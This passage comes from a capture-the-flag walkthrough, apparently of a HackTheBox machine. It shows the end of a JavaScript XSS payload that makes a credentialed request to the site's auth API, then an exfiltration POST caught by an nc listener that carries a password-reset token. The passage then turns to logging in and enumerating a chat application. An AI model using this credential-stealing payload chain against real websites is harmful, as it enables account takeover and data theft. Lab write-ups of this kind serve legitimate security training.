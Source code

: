 ```
      }
      req_token.open("GET", "http://crossfit-club.htb/api/auth");
      req_token.withCredentials = true;
      req_token.send();
    </script>
  </body>
</html>  

```

I’ll run the trigger script again. After a couple minutes, the request comes to the PHP server, and then immediately I get a request at `nc` on TCP 81:

```

POST /exfil HTTP/1.1
Host: gymxcrossfit.htb:81
User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 66
Origin: http://gymxcrossfit.htb
Connection: keep-alive
Referer: http://gymxcrossfit.htb/password-reset.php?token=b78384a95b787a190448b79f6e7d8823ac6f8a0a73c5552ba2225fe5bee6a85c6c7f7cca7bd9eb44f03af81c9a09b14d91ed4062de06acd56887274fcb09a0cc                      

{"success":"true","message":"User registered successfully!"}

```

The account works, and I’m able to log in!

### Capture Admin’s Messages

#### Site Enumeration

Logged in, there’s a main page with a couple posts:

![image-20210719091645314](https://0xdfimages.gitlab.io/img/image-20210719091645314.png)

All the links lead here, except for Chat, which leads to a chat application. On first visiting, there are users down the left, including Global Chat and Admin:

![image-20210719092520149](https://0xdfimages.gitlab.io/img/image-20210719092520149.png)

After a minute or so, chats start coming into the global chat:

![image-20210719092926545](https://0xdfimages.gitlab.io/img/image-20210719092926545.png)

#### Tech Stack
